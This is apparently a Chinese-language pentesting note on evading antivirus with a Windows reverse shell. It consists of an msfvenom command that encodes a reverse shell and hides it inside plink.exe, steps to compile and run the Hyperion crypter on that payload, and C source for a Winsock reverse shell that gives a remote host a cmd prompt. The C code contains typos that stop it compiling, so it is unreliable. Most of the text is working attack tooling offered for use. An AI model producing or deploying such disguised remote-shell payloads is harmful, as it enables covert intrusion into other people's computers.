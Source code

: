 msfvenom windows/shell_reverse_tcp lhost=your-ip lport=your-port R -e x86/shikata_ga_nai -t exe -c -9 -x /usr/share/windows-binaries/plink.exe(载体) -o ./shell.exe


## hyperion

下载:   https://github.com/nullsecuritynet/tools/tree/master/binary/hyperion/release
```
unzip hyperion.zip
cd hyperion/
i586-mingw32msvc-g++ Src/Crypter/*.cpp -o hyperion.exe
wine hyperion.exe shell.exe(之前用msf生成的文件) crypted.exe(混淆之后的文件)
```


## 自己编写

### c

```reverse.c
#include <winsock2.h>
#include <stdio.h>

#pragma comment(lib,"ws2_32")

	WSADATA wsaData;
	SOCKET Winsock;
	SOOKET Sock;
	struct sockaddr_in hax;
	char ip_addr[16];
	STARTUPINFO ini_processo;
	PROCESS_INFORMATION processo_info;

int main(int argc,char *argv[])
{
	WSAStartup(MAKEWORD(2,2),&wsaData);
	winsock=WSASoket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,(unsigned int)NULL,(unsigned int)NULL);

	if (argc != 3){fprintf(stderr,"Uso: <rhost> <rport>\n";) exit(1);}
	struct hostent *host;
	host = gethostbyname(argv[1]);
	strcpy(ip_addr,inet_ntoa(*((struct in_addr *)host->h_addr)));

	hax.sin_family = AF_INET;
	hax.sin_port = htons(atoi(argv[2]));
  	hax.sin_addr.s_addr = inet_addr(ip_addr);

  	WSAConnect(Winsock,(SOCKADDR* )&hax,sizeof(hax),NULL,NULL,NULL,NULL);

  	memset(&ini_processo,0,sizeof(ini_processo));
  	ini_processo.cb = sizeof(ini_processo);
  	ini_processo.dwFlags = START_USESTDHANDLES;
  	ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;
  	CreateProcess(NULL,"cmd exe",NULL,NULL,TRUE,0,NULL,NULL,&ini_processo,&process_info);
}
```
i586-mingw32msvc-gcc reverse.c -o reverse.exe -lws2_32
